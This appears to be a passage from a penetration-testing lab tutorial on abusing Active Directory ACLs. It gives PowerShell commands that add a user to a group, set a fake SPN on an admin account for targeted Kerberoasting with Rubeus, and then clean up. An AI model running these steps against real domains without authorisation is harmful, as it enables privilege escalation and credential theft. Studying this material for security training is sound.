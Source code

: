     Next, we need to perform a similar process to authenticate as the damundsen user and add ourselves to the Help Desk Level 1 group.


    \\Creating a SecureString Object using damundsen

    PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
    PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)


    Next, we can use the Add-DomainGroupMember function to add ourselves to the target group. We can first confirm that our user is not a member of the target group. This could also be done from a Linux host using the pth-toolkit.

    \\Adding damundsen to the Help Desk Level 1 Group

    PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members

    PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose



    At this point, we should be able to leverage our new group membership to take control over the adunn user. Now, let's say that our client permitted us to change the password of the damundsen user, but the adunn user is an admin account that cannot be interrupted. Since we have GenericAll rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's servicePrincipalName attribute to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.

    We must be authenticated as a member of the Information Technology group for this to be successful. Since we added damundsen to the Help Desk Level 1 group, we inherited rights via nested group membership. We can now use Set-DomainObject to create the fake SPN. We could use the tool targetedKerberoast to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

    \\Creating a Fake SPN

    PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

    \\Kerberoasting with Rubeus

    PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap


    \\Cleanup

    In terms of cleanup, there are a few things we need to do:

    Remove the fake SPN we created on the adunn user.
   
    Remove the damundsen user from the Help Desk Level 1 group
   
    Set the password for the damundsen user back to its original value (if we know it) or have our client set it/alert the user


    \\Removing the Fake SPN from adunn's Account

    PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

    \\Removing damundsen from the Help Desk Level 1 Group

    PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose

    




